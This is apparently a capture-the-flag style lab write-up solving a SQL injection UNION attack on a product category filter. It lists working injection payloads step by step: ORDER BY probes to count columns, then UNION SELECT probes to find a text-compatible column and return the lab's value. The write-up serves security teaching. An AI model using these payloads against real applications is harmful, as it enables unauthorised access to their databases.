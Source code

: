 # SQL injection UNION attack, finding a column containing text
# Objective
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. \

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

# Solution

`/filter?category=’` —> Application is vulnerable 

## Determining the number of columns
`/filter?category=Pets' order by 1--` \
`/filter?category=Pets' order by 2--` \
`/filter?category=Pets' order by 3--` \
`/filter?category=Pets' order by 4--` -> Error

## Determining the types of columns
`/filter?category=Pets' union select null, null, null--` -> Number of columns = 3 \
`/filter?category=Pers' union select 'a', null, null--` -> Error \
`/filter?category=Pers' union select null, 'a', null--` -> OK \
`/filter?category=Pers' union select null, null, 'a'--` -> Error \

## Returning provided value
```
/filter?category=Pers' union select null, 'MzE7Z8', null--
```